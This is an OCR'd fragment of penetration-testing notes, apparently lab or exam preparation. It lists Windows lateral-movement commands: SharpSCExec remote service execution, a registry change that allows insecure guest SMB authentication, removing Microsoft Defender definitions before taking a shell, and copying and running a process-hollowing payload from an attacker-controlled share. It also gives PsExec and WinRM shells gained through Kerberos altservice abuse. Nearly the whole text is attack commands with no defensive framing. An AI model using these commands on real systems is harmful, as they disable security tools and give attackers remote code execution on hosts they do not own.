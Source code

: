                 - `.\SharpSCExec.exe APPSRV01 SensorService "cmd.exe /c ping -n 2 192.168.45.210"`
                - `reg add HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /t REG_DWORD /v AllowInsecureGuestAuth /d 1 /f`
            - **Disable Defender before shell:
                - `\\192.168.45.158\visualstudio\SharpSCExec\SharpSCExec\bin\x64\Release\SharpSCExec.exe FILE01 SensorService "cmd.exe /c c:\PROGRA~1\WINDOW~1\MpCmdRun.exe -RemoveDefinitions -All"`
            - **Best Shell Method - copy and execute Hollower/Injector:
                - `copy \\192.168.45.158\visualstudio\Hollow\Hollow\bin\x64\Release\Hollow.exe \\file01\c$\windows\tasks`
                - `\\192.168.45.158\visualstudio\SharpSCExec\SharpSCExec\bin\x64\Release\SharpSCExec.exe FILE01 SensorService "C:\Windows\Tasks\Hollow.exe"`
            - **PSExec Shell Method:
                - `copy \\192.168.49.121\visualstudio\Hollow\Hollow\bin\x64\Release\Hollow.exe \\jump09.ops.comply.com\c$\windows\tasks`
                - `\\192.168.49.121\visualstudio\sysinternals\PsExec64.exe -accepteula \\jump09.ops.comply.com "c:\windows\tasks\Hollow.exe"`
    - **can still use /altservice:
        - Shell Option 2 - switch for /altservice:http and get winrm shell:
            - `Enter-PSSession -ComputerName cdc01.prod.corp1.com`
        - Shell Option 3 - switch for /altservice:host and get psexec shell:
            - `.\PsExec64.exe \\cdc01.prod.corp1.com cmd.exe`